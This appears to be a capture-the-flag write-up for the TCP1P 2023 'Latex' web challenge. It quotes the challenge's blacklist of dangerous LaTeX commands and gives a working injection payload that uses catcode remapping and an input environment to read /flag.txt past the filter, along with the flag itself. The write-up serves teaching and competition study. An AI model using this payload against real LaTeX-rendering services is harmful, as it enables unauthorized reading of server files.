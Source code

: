 # Latex

## Description

> My first LaTeX website for my math teacher. I hope this will become the best gift for him! :)
>
> <http://ctf.tcp1p.com:52132>
>
> Attachment: dist.zip

## Flag

TCP1P{bypassing_latex_waf_require_some_latex_knowledge}

## Solution

```go
blacklist = [] string {
    "\\input", "include", "newread", "openin", "file", "read", "closein",
    "usepackage", "fileline", "verbatiminput", "url", "href", "text", "write",
    "newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics",
    "openout", "newcommand", "expandafter", "csname", "endcsname", "^^"
}
```

It is required to bypass to the above black list.
It seems that I can take advantage of `\input` instead of `input`.

This solution is based on using `\begin{input}{/file/path}\end{input}` and `\catcode`.
Since `{`, `}` and `_` in the flag are interpreted as Latex, I temporarily replace them by using `\catcode`.

payload:

```latex
\documentclass{article}
\begin{document}

\catcode `\{=12
\catcode `\}=12
\catcode `\_=12

\catcode `\[=1
\catcode `\]=2

\begin[input]
[/flag.txt]
\end[input]

\catcode `\{=1
\catcode `\}=2

\end{document}
```

output is `TCP1P–bypassing˙latex˙waf˙require˙some˙latex˙knowledge˝` so replace each char:

- `–` to `{`
- `˝` to `}`
- `˙` to `_`

then got flag.

FYI: [official writeup](https://github.com/TCP1P/TCP1P-CTF-2023-Challenges/tree/main/Web/Latex/writeup) is based on using `\begin...\end`, and register token by using `\newtoks` then built string by using `\the`.

<https://en.wikibooks.org/wiki/LaTeX/Plain_TeX>

> A token is a character, a control sequence, or a group.

## References

- <https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#lfi>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection>
- <https://0day.work/hacking-with-latex/>
- <https://hovav.net/ucsd/dist/texhack.pdf>
  > For example, one can read files with \begin{input}{/file/path}\end{input}.
- <https://en.wikibooks.org/wiki/TeX/catcode>
